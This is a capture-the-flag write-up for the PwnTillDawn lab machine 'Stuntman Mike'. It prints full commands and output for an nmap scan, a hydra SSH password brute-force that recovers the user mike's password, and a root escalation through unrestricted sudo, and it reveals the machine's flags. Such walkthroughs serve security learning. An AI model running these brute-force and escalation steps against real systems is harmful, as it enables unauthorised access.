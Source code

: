 ```yaml
---
title: Stuntman Mike
categories: [PwnTillDawn]
tags: [SSH Bruteforce]
image:
  path: /Vulnhub-Files/img/Stuntman%20Mike/Untitled.png
  alt: Stuntman Mike -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.166]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.166
Nmap scan report for 10.150.150.166
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:9e:99:ed:7e:e0:d5:83:ad:c9:ba:7c:f1:bc:44:06 (RSA)
|   256 7e:53:59:7b:2d:6c:3b:d7:21:28:cb:cb:78:af:99:78 (ECDSA)
|_  256 c5:d2:2d:04:f9:69:40:4c:15:34:36:fe:83:1f:f3:44 (ED25519)
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:15:13
|_Not valid after:  2022-10-24T09:15:13
|_http-server-header: Splunkd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

Now I got splunkd open on port 8089 :

![Untitled](/Vulnhub-Files/img/Stuntman%20Mike/Untitled%201.png)

while tring ssh on this machine I got this one FLAG →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.166]
└─$ ssh 10.150.150.166            
The authenticity of host '10.150.150.166 (10.150.150.166)' cant be established.
ED25519 key fingerprint is SHA256:wCj0PIambullovu4ygX2+b6IVT8d8x2gEDeOB2D3OE4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.150.150.166' (ED25519) to the list of known hosts.
You are attempting to login to stuntman mike is server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
kali@10.150.150.166s password: 
Permission denied, please try again.
kali@10.150.150.166 is password: 
Permission denied, please try again.
kali@10.150.150.166 is password: 
kali@10.150.150.166: Permission denied (publickey,password).
```
{: .nolineno}
{: .nolineno}

Then I tried bruteforce into the username as mike for SSH login and as a result I got it →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.166]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166 -t 4 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-18 14:34:52
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.150.150.166:22/
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-18 14:35:05
```
{: .nolineno}
{: .nolineno}

Credentials are →

```bash
mike : babygirl
```
{: .nolineno}
{: .nolineno}

Now it SSH time →

## SSH Login ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.166]
└─$ ssh mike@10.150.150.166       
You are attempting to login to stuntman mikes server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
mike@10.150.150.166 password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep 18 09:42:35 UTC 2023

  System load:  0.01               Processes:            167
  Usage of /:   28.7% of 19.56GB   Users logged in:      1
  Memory usage: 20%                IP address for ens33: 10.150.150.166
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

18 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

*** System restart required ***
Last login: Tue Apr 21 08:57:00 2020
mike@stuntmanmike:~$
```
{: .nolineno}
{: .nolineno}

Now lets check how this user can get me to root →

```bash
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Sorry, try again.
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$ sudo /bin/bash -i
root@stuntmanmike:~# whoami
root
root@stuntmanmike:~# id
uid=0(root) gid=0(root) groups=0(root)
root@stuntmanmike:~# cd /root
root@stuntmanmike:/root# ls -al
total 36
drwx------  4 root root 4096 May 14  2020 .
drwxr-xr-x 23 root root 4096 Jan 30  2022 ..
-rw-------  1 root root  721 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
-rw-r--r--  1 root root   41 May 27  2019 FLAG37
drwxr-xr-x  3 root root 4096 May 27  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 27  2019 .ssh
root@stuntmanmike:/root# cat FLAG37 
28d10397e475a50fc0d6c73f7c23355ebdf15a3f
root@stuntmanmike:/root#
```
{: .nolineno}
{: .nolineno}

>It was time waste for me after I got the username from hid & trial method.
{: .prompt-danger }

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
